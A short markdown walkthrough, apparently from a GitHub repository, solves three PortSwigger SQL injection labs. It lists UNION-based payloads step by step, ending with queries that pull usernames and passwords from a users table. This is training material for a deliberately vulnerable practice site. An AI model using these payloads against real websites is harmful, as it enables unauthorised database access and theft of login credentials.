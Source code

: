 # SQL Injection Part 2: Portswigger Labs
### [Lab 4: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

**To solve: Find column containing text and print gDi73c**

**STEP 1:**
Find number of colums
```html
'+UNION+SELECT+NULL,NULL,NULL--
```

**STEP 2:**
Find columns that contains text
```html
'+UNION+SELECT+NULL,'abcd',NULL--
```

**STEP 3:**
Print the text 'gDi73c'
```html
'+UNION+SELECT+null,+'gDi73c',+null--
```

### [Lab 5: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

**To solve: Login as administrator**

**STEP 1:**
Find number of column returned
```html
'+UNION+SELECT+NULL,NULL--
```

**STEP 2:**
Find column that contains text
```html
'+UNION+SELECT+abcd,'abcd'--
```
***Both column contains text***

**STEP 3:**
Return username and password from users table
```html
+UNION+SELECT+username,+password+FROM+users--
```

### [Lab 6: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)
**To solve: Login as administrator**

**STEP 1:**
Find number of column returned
```html
'+UNION+SELECT+NULL,NULL--
```

**STEP 2:**
Find column that contains text
```html
'+UNION+SELECT+null,'abcd'--
```

**STEP 3:**
Return username and password in single column
```html
'+UNION+SELECT+null,+username||password+FROM+users--
```



